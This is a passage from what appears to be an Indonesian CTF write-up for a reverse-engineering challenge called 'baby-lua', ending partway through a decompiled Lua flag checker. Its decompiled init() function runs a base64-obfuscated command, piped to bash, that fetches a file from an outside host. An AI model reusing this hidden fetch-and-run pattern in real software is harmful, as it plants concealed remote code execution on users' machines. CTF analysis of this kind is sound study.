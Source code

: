 # Reverse

## baby-lua

### Deskripsi

{{< admonition type=info title="Click to show the desc" open=false >}}
  lua but baby
{{< /admonition >}}

### Langkah Penyelesaian

- Disclaimer dulu, saya gak jago Reverse ya ges, iseng-iseng aja ini.
- Setelah saya coba decompile menggunakan Ghidra, ada something interesting di fungsi `init()`, di mana mengeksekusi command seperti berikut.

```c
int init(EVP_PKEY_CTX *ctx)

{
  int iVar1;
  char local_408 [1024];
  
  sprintf(local_408,
          "echo d2dldCAtcSAtTyAvdG1wL3V3dSBodHRwczovL2FpbWFyLmlkL2ZsYWcubHVhYw== | base64 -d | bash"
         );
  iVar1 = system(local_408);
  return iVar1;
}
```

- Ketika saya coba execute command tersebut di local machine, ada file `uwu` di direktori `/tmp`. Saya coba cek file apakah itu, ternyata merupakan file bytecode dalam bahasa Lua.
- Langsung saja saya decompile bytecode itu dan ini hasilnya.

```lua
    -- filename: 
    -- version: lua52
    -- line: [0, 0] id: 0
    check_flag = function(r0_1)
    -- line: [1, 45] id: 1
    local r1_1 = {
        0,
        1,
        1,
        1,
        0,
       ... omitted ...,
        0,
        1,
        1,
        1,
        1,
        1,
        0,
        1
    }
    local r2_1 = ""
    for r6_1 = 1, #r0_1, 1 do
        local r8_1 = string.byte(r0_1:sub(r6_1, r6_1))
        for r12_1 = 7, 0, -1 do
        if 2 ^ r12_1 <= r8_1 then
            r2_1 = r2_1 .. "1"
```